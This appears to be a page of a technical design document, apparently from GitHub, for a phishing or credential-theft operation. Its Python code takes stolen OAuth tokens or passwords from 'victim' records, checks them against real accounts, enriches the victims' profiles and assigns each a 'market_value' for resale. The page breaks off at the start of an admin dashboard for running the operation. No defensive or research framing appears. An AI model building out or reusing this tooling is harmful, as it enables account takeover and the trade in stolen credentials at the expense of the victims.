```python
        """Comprehensive credential validation and account profiling"""
        victim = await self.db.victims.find_one({"_id": victim_id})
        
        validation_results = {
            'credential_validity': False,
            'account_type': None,
            'market_value': 'low',
            'additional_data': {},
            'access_level': None
        }
        
        try:
            # Test OAuth tokens if available
            if victim.oauth_tokens:
                oauth_validation = await self.test_oauth_access(victim.oauth_tokens)
                validation_results.update(oauth_validation)
            
            # Test direct login if password available
            elif victim.password_hash:
                login_validation = await self.test_direct_login(
                    victim.email, 
                    victim.password_hash
                )
                validation_results.update(login_validation)
            
            # Enrich with additional data
            if validation_results['credential_validity']:
                enrichment_data = await self.enrich_victim_profile(victim)
                validation_results['additional_data'].update(enrichment_data)
                validation_results['market_value'] = self.calculate_market_value(enrichment_data)
            
        except Exception as e:
            self.logger.error(f"Validation failed for victim {victim_id}: {e}")
            validation_results['error'] = str(e)
        
        # Update victim record with validation results
        await self.db.victims.update_one(
            {"_id": victim_id},
            {"$set": {"validation": validation_results, "updated_at": datetime.utcnow()}}
        )
        
        return validation_results
```

#### 4. Admin Control Center
**Frontend Technologies**: HTML5, CSS3 (Custom Design System), JavaScript (ES6+), Chart.js
**Backend**: Python (Flask/FastAPI), WebSocket (real-time updates), JWT (authentication)

**Dashboard Architecture**:
```python
class AdminDashboardSystem:
    def __init__(self):
        self.auth_manager = AdminAuthenticationManager()
        self.permissions_engine = RoleBasedPermissionEngine()
        self.real_time_updater = WebSocketManager()
        self.analytics_engine = DashboardAnalyticsEngine()
    
    async def get_dashboard_overview(self, admin_user):
        """Generate comprehensive dashboard statistics"""
        
        # Check permissions
        if not self.permissions_engine.can_access(admin_user, 'dashboard_view'):
            raise PermissionDenied("Insufficient permissions for dashboard access")
        
```
